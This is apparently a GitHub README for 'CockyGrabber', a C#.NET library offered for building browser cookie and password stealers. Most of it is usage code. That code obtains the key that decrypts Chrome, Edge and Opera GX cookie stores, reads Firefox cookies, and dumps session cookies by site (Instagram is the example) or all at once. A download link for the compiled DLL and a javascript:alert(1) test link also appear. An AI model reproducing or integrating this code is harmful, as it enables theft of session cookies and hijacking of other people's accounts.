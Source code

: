#### 💣 Old CockyGrabber got deleted by TheBackdoor - Made by TheBackdoor and me 💣 [click here for try something](javascript://alert(1))

# CockyGrabber
A Browser Cookies & Passwords Grabber C#.NET Library that you can itegrate in your Projects.
*(More Supported Browsers in Future!)*

## Download: 

For download all necessary packages, you can do from nuget with searching `CockyGrabber` and download the 1.2.0 version. once done, just download the library from the last [release](https://github.com/Stanley-GF/CockyGrabber/releases/download/2.1.0/webGrabber.dll).

## Usage:
**Import Cockygrabber classes:**</br>
It's not necessary but it will look better if you import CockyGrabber:
```cs
using CockyGrabber;
using Cookie = CockyGrabber.Classes.Cookie;
```
</br>
then you will need to import a few packages to make CockyGrabber work

```cs
using System.Data.SQLite; // link: https://www.nuget.org/packages/System.Data.SQLite/
using Newtonsoft.Json; // link: https://www.nuget.org/packages/Newtonsoft.Json/
using System.Security.Cryptography.ProtectedData; // link: https://www.nuget.org/packages/System.Security.Cryptography.ProtectedData
using BouncyCastle; // link: https://www.nuget.org/packages/BouncyCastle/
```


</br>
</br>

**Getting The Key to decrypt cookies:**</br>
First you need to get a Key to decrypt the Cookies.

Replace `[GrabberClass]` with the Cookie Grabber Class you want to use (OperaGxGrabber/ChromeGrabber. Firefox doesn't need a key because it don't encrypts cookies)
```cs
[GrabberClass] grabber = new [GrabberClass]
byte[] keyToDecryptEncrypedDB = grabber.GetKey();
```
</br>
</br>

**Grabbing Cookies:**</br>
Cookie Grabbing with CockyGrabber is *REALLY EASY*.
</br>
</br>
*Cookie Hostname examples: ".instagram.com" for instagram cookies, ".github.com" for github cookies, ".stackoverflow.com" for stackoverflow cookies, ...*
</br>
</br>
</br>


Firefox Cookie Grabbing:

```cs
FirefoxGrabber grabber = new FirefoxGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com"))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies())
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
} 
```
</br>
</br>

Chrome Cookie Grabbing:
</br>
Since Chrome cookie values are encrypted with BLOB, we need a key to decrypt the data. (I defined the key on line 21, README.md)
</br>

```cs
ChromeGrabber grabber = new ChromeGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```

</br>
</br>

OperaGx Cookie Grabbing:
</br>
OperaGx also encrypts cookies so you need a key here too.
</br>

```cs
OperaGxGrabber grabber = new OperaGxGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```
</br>
</br>

Edge Cookie Grabbing:
</br>
Edge also encrypts cookies so you need a key here too.
</br>

```cs
EdgeGrabber grabber = new EdgeGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```
</br>
</br>

## End
</br>
Yea thats it for now. Fork/Star/Watch this repo to dont miss new releases!
</br>
</br>
If you want to script with me then create a Issue!
</br>
---
</br>

If you found any **Bugs** then please create a Issue!
